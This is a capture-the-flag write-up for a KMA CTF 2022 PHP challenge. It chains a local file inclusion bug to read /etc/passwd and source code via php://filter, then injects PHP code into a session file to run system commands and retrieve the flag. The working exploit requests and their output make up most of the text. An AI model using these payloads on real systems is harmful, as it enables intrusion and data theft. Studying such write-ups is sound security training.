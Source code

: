 # KMA CTF 2022 - RCE Me

**hint**: I am using php-fpm alpine docker

**Vulnerable to LFI**: `http://rce-me.ctf.actvn.edu.vn/?l=/etc/passwd`
```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin utmp:x:100:406:utmp:/home/utmp:/bin/false
```

Let's try to read source code using `php wrapper`: `http://rce-me.ctf.actvn.edu.vn/?l=php://filter/convert.base64-encode/resource=index.php`
```php
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

The idea very is very clear, if we can read php session file, we can using `name parameter` to inject PHP code to session file to get RCE:

**PHP session file location**: Just google it, stack overflow,.. try everything... haizz!!
*References*:
First check the value of `session.save_path` using `ini_get('session.save_path')` or `phpinfo()`. If that is non-empty, then it will show where the session files are saved. In many scenarios `it is empty by default`, in which case read on:

  On `Ubuntu or Debian` machines, if `session.save_path is not set`, then session files are saved in `/var/lib/php5`.
  On `RHEL and CentOS` systems, if `session.save_path is not set`, session files will be saved in `/var/lib/php/session`
  I think that if you `compile PHP from source`, then when `session.save_path is not set`, session files will be saved in `/tmp`.

And yes, your php session file location is: 
```
/tmp/sess_[YOUR-PHP-SESSION-ID]
```

**Try**: `http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1`
```html
name|N;
```

`http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1&name=<?php system('id'); ?>`
```html
name|s:22:"uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data) ";
```

Do some simple rce, we found file contain the flag: `flag_KMACTF_hihi_do_anh_bat_duoc_em.txt`

**flag**: `KMACTF{Do_anh_session_duoc_em_hihi}` 
